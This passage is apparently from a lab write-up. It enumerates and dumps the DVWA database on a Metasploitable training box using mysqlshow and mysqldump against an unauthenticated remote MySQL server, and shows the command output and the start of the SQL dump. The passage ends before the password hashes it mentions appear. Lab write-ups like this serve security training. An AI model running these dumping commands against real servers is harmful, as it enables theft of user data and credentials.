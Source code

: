 root@morpheus:~/box/metasploitable# mysqlshow --host=10.0.0.27 dvwa
Database: dvwa
+-----------+
|  Tables   |
+-----------+
| guestbook |
| users     |
+-----------+
root@morpheus:~/box/metasploitable# mysqlshow --host=10.0.0.27 --count dvwa
Database: dvwa
+-----------+----------+------------+
|  Tables   | Columns  | Total Rows |
+-----------+----------+------------+
| guestbook |        3 |          1 |
| users     |        6 |          5 |
+-----------+----------+------------+
2 rows in set.

Dump MySQL Database Contents (mysqldump)

See MySQL page for usage of mysqldump and a few other examples.

Like the mysqlshow command, the mysqldump command accepts the host argument. To dump a table, run the command like this:

# mysqldump --host=10.0.0.27 [tablename]

This will result in an SQL script that will recreate the entire database from scratch. (Make sure you use mysqlshow --count to make sure you aren't going to dump out a 500 GB database.
Damn Vulnerable Web App

Dumping the dvwa web app reveals some usernames and password hashes.

root@morpheus:~/box/metasploitable# mysqldump --host=10.0.0.27 dvwa > dvwa.sql

root@morpheus:~/box/metasploitable# cat dvwa.sql
-- MySQL dump 10.13  Distrib 5.5.47, for debian-linux-gnu (x86_64)
--
-- Host: 10.0.0.27    Database: dvwa
-- ------------------------------------------------------
-- Server version	5.0.51a-3ubuntu5

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

